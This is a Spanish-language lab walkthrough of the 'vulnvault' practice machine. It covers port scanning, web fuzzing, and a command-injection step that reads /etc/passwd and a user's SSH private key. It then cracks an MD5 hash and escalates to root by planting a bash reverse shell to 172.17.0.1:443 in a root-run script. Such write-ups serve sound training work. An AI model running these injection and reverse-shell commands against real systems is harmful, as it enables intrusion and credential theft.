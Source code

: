 ### Maquina vulnvault

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

## Fuzzing web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

/scripts.js           
/upload.php           
/upload.html          
/upload.js            
/index.php            
/old                  


## Intrusion

Ejecución remota (RCE)

En index.php, podemos escribir ejecucion remota de comandos

; cat /etc/passwd
; cat /etc/passwd

![alt text](image-2.png)

aquí podemos ver el id_rsa y hacer la intrusión mediante el id_rsa

; cat /home/samara/.ssh/id_rsa


copiamos el id_rsa, le damos permisos 600 y accedemos mediante ssh

![alt text](image-4.png)


en /home/samara encontramos un archivo user.txt que contiene -> 030208509edea7480a10b84baca3df3e , es una encriptacion MD5

hash-identifier

![alt text](image-5.png)

aplicamos JohnTheRipper

![alt text](image-3.png)

## Escalar privilegios

ejecute pspy64

![alt text](image-6.png)

y vi que el archivo se ejecutaba como root y tenia permisos de escritura

luego agregue el siguiente codigo:

bash -i >& /dev/tcp/172.17.0.1/443 0>&1

me puse en escucha con netcat y listo somos root



##
##
